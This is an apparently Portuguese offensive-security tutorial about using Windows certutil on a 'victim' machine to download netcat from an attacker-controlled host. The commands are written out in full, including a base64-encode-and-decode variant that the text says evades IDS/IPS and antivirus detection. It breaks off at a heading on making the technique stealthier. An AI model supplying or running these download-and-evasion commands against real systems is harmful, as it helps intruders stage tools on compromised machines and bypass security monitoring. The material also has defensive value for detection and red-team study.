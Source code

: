 ### Processo de Download com Certutil (Máquina Windows - Vítima) 

Certutil é uma ferramenta de linha de comando presente nos sistemas operacionais Windows que tem diversas funcionalidades relacionadas à gestão de certificados digitais e arquivos criptográficos. Esse utilitário permite realizar operações como instalar, visualizar, exportar e gerar certificados, além de executar verificações de assinaturas digitais, calcular hashes e muito mais. Em resumo, o Certutil é uma ferramenta versátil que desempenha um papel essencial na administração de certificados e na validação de arquivos em ambientes Windows, embora não seja bem documentado pela Microsoft esse binário pode ser utilizado para realizar download de arquivos.

Para realizar o download com certutil siga as etapas abaixo:

1. Abra um terminal cmd ou powershell e execute o comando abaixo:

```powershell
certutil.exe -urlcache -split -f http://IP_ATACANTE/nc.exe nc.exe
```

2. Verifique o hash do arquivo

```powershell
certutil.exe -hashfile nc.exe md5
```

### Processo de Download com Certutil com dados em base64 (Máquina Windows - Vítima) 

Uma característica interessante do certutil.exe é a capacidade de processar uma informação codificada em Base64 para o arquivo original, ou seja, podemos tomar a representação base64 do executável nc.exe, colocar num arquivo texto, fazer o download via certutil.exe e transformar o texto novamente no executável

Essa é uma forma de o atacante evitar levantar suspeitas e tentar contornar algumas proteções (bypass) de IDS/IPS e Antivírus

Na máquina do atacante, transforme o executável nc.exe em um arquivo texto, que é a representação em base64

```bash
cat nc.exe | base64 > nc.txt
```

Na máquina vítima, realize o processo de decode e download

```bash
certutil -urlcache -split -f "http://IP_ATACANTE/nc.txt" nc.txt
```
```bash
certutil -decode nc.txt nc.exe
```
ou
```bash
certutil.exe -urlcache -split -f "http://IP_ATACANTE/nc.txt" nc.txt && certutil.exe -decode nc.txt nc.exe
```

### Formas de deixar o certutil mais stealth  
